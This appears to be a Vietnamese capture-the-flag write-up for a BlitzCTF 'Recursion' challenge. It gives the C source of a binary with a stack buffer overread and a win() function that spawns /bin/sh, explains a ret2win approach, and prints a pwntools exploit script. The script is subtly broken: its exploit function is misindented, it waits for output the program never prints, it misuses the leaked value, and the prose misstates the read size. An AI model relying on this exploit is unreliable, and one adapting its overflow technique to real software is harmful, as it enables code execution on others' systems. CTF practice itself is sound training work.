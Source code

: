 ## BlitzCTF 

1.Recursion 

Source code : 
``` 
//  gcc chall.c -o chall -fno-stack-protector -no-pie
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void win() {
    printf("You win!\n");
    system("/bin/sh");
}

int main() {
    char buf[0x100];

    ssize_t n = read(0, buf, sizeof(buf) + 0x18);
    puts(buf);

    if (buf[n - 1] != '\n')
        return main();

    return 0;
}
```
Sau khi đọc source code của chall này ta thấy được đơn cử đây là 1 bài ret2win, chúng ta cần phải leak được address và call được hàm win() để nhận được flag. 
Logic code sẽ là chương trình đọc 118 bytes từ đầu vào, và nếu ký tự cuối cùng không phải là ký tự xuống dòng, nó sẽ gọi lại main(). Điều này tạo ra một vòng lặp và luôn quay lại main(), mỗi lần gọi lại main(), stack sẽ bị trừ đi 0x110 bytes và rồi tạo ra 1 stack frame mới với nhiều địa chỉ nhạy cảm. 
Vậy thì với exploit, ta cần leak được địa chỉ stack address cũng như là ngoài ra phải thực hiện thao tác debug trong dockerfile để tìm offset chính xác giữa leaked stack address và stack address nơi được viết hàm win ở trong đấy :  
```
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *


context.log_level = 'debug'
context.arch = 'amd64'  
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc


gdbscript = '''
init-pwndbg
break *0x4011CC
continue
'''

def start(argv=[]):
    if args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    elif args.GDB:
        p = process([exe.path] + argv)
        gdb.attach(p, gdbscript=gdbscript)
        return p
    else:
        return process([exe.path] + argv, aslr=True)

# ==================== EXPLOIT ====================
    def exploit():
    p = start()

    
    p.sendline(cyclic(0x30))  
    p.recvuntil(b'trigger\n')  
    leak = p.recvline()
    
   
    stack_leak = u64(leak[:8].ljust(8, b'\0'))
    log.success(f'Stack leak: {hex(stack_leak)}')

   
    offset = cyclic_find(leak[:8])  
    log.info(f'Offset to return address: {offset}')

  
    payload = flat(
        b'A' * offset,          
        p64(exe.sym.win),       
        b'\0' * (0x100 - offset - 8)  
    )

    
    p.sendline(payload)
    p.sendline(b'trigger')

    # Interact with the shell
    p.interactive()

if __name__ == '__main__':
    exploit()
```
